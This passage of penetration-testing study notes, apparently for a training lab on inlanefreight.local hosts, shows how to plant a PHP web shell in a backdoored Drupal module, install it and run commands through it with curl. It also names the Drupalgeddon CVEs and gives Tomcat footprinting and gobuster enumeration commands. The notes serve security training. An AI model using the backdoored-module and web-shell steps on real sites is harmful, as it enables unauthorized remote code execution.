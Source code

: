     mv shell.php .htaccess captcha

    tar cvf captcha.tar.gz captcha/
    # create archive for module

    # if we have admin access to website, we can install new module
    # here, we can upload and install this backdoored module

    # then, we can get RCE
    curl -s drupal.inlanefreight.local/modules/captcha/shell.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
    ```

    ```html
    <IfModule mod_rewrite.c>
    RewriteEngine On
    RewriteBase /
    </IfModule>
    ```
  
  * leveraging known vulnerabilities - the most well-known vulnerabilities are the Drupalgeddon ones for RCE - CVE-2014-3704 for Drupalgeddon, CVE-2018-7600 for Drupalgeddon2 and CVE-2018-7602 for Drupalgeddon3

## Servlet Containers & Software Development

* Tomcat:

  * footprinting:

    * error pages include Tomcat server and version, so we can request an invalid page and check; this does not work for custom pages

    * we can also check /docs:

      ```sh
      curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat 
      # check /docs
      ```

    * important files include ```/conf/tomcat-users.xml``` and ```/webapps/customapp/WEB-INF/web.xml``` (deployment descriptor)
  
  * enumeration:

    ```sh
    # check the /manager and /host-manager directories
    gobuster dir -u http://web01.inlanefreight.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt

